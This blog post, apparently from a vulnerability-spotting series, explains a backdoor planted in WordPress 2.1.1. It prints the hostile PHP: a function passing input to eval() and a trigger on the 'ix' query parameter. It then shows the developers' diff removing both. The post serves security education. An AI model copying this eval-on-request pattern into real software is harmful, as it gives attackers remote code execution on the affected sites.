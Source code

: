 ```yaml
---
layout: post
title: Impact - Command Injection
tags:
- Code Snippet
- PHP
- Privilege Escalation
- Solution
- Wordpress
status: publish
type: post
published: true
meta:
  aktt_notify_twitter: 'yes'
  _aktt_hash_meta: ! '#code #development'
  _edit_last: '2'
  aktt_tweeted: '1'
  _sexybookmarks_shortUrl: http://bit.ly/bvG37F
  _sexybookmarks_permaHash: 705d5cdc2aa46c7aebd4f8b0e67e70ba
---
```

## Details
__Affected Software:__ WordPress

__Fixed in Version:__  2.1.1

__Issue Type:__ Command Injection

Original Code: <a title="Impact" href="http://spotthevuln.com/2010/01/impact/" target="_blank">Found Here</a>
## Description
This example was actually a backdoor someone had planted in WordPress 2.1.1.  Apparently, someone either broke into the wordpress server or hacked a wordpress dev account and inserted this back door.  The back door was simple, create a function which simply calls eval on a arguments passed to it.  The attacker named this function "comment_text_phpfilter()" and the contents of the function are provided below:
<blockquote>function comment_text_phpfilter($filterdata) {
eval($filterdata);
}</blockquote>
Several lines later, the attacker planted a mechanism to call the backdoor.  In this case, the attacker checked for the presense of the "ix" parameter being passed via the querystring.  If the "ix" querystring parameter was present, the value assigned to "ix" would be passed to "comment_text_phpfilter()", which would pass the attacker supplied value to eval().
<blockquote>if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }</blockquote>
<h2>Developers Solution</h2>
[cce lang="diff"]

function comment_author_rss() {
echo get_comment_author_rss();
}

-function comment_text_phpfilter($filterdata) {
-eval($filterdata);
-}

function comment_text_rss() {
$comment_text = get_comment_text();
$comment_text = apply_filters('comment_text_rss', $comment_text);
echo $comment_text;
}

function comments_rss_link($link_text = 'Comments RSS', $commentsrssfilename = '') {
$url = comments_rss($commentsrssfilename);
echo "&lt;a href='$url'&gt;$link_text&lt;/a&gt;";
}

...

function get_category_rss_link($echo = false, $cat_ID, $category_nicename) {
$permalink_structure = get_option('permalink_structure');

if ( '' == $permalink_structure ) {
$link = get_option('home') . '?feed=rss2&amp;amp;cat=' . $cat_ID;
} else {
$link = get_category_link($cat_ID);
$link = $link . "feed/";
}

$link = apply_filters('category_feed_link', $link);

if ( $echo )
echo $link;
return $link;
}

-if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }

function get_the_category_rss($type = 'rss') {
$categories = get_the_category();
$the_list = '';
foreach ( (array) $categories as $category ) {
$category-&gt;cat_name = convert_chars($category-&gt;cat_name);
if ( 'rdf' == $type )
$the_list .= "\n\t\t&lt;dc:subject&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/dc:subject&gt;\n";
else
$the_list .= "\n\t\t&lt;category&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/category&gt;\n";
}
return apply_filters('the_category_rss', $the_list, $type);
}

[/cce] 
